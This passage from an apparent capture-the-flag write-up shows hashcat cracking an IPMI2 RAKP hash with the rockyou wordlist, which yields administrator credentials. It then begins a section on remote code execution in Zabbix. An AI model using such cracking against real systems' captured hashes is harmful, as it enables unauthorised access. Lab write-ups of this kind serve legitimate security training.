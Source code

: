 The hash cracks rather quickly using hashcat leaving us with the credentials `Administrator:ilovepumkinpie1`

```
$ hashcat -m 7300 -O -a 0 hash rockyou.txt
hashcat (v6.2.4) starting
...[snip]...
8d6f41d7820800006d998f27a85cfa7ff52e800a9b93ec03bf4f92c3021cf3ecdc1c7debb1ef9695a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:9c8093e2a8fcac1945bb8abe08e984ce6e73d7db:ilovepumkinpie1

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 7300 (IPMI2 RAKP HMAC-SHA1)
Hash.Target......: 8d6f41d7820800006d998f27a85cfa7ff52e800a9b93ec03bf4...73d7db
Time.Started.....: Sat Nov 13 23:21:54 2021 (1 sec)
Time.Estimated...: Sat Nov 13 23:21:55 2021 (0 secs)
Kernel.Feature...: Optimized Kernel
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 10137.0 kH/s (5.64ms) @ Accel:2048 Loops:1 Thr:128 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 7865947/14344388 (54.84%)
Rejected.........: 1627/7865947 (0.02%)
Restore.Point....: 5243993/14344388 (36.56%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: n115701 -> gisellw
Hardware.Mon.#1..: Temp: 43c Fan: 32% Util:  1% Core:1911MHz Mem:4006MHz Bus:16

Started: Sat Nov 13 23:21:47 2021
Stopped: Sat Nov 13 23:21:56 2021
```

## Zabbix RCE

Going back to zabbix we are now able to log into the website.

[![015_zabbix_logged_in](/img/shibboleth/015_zabbix_logged_in.png)](/img/shibboleth/015_zabbix_logged_in.png)
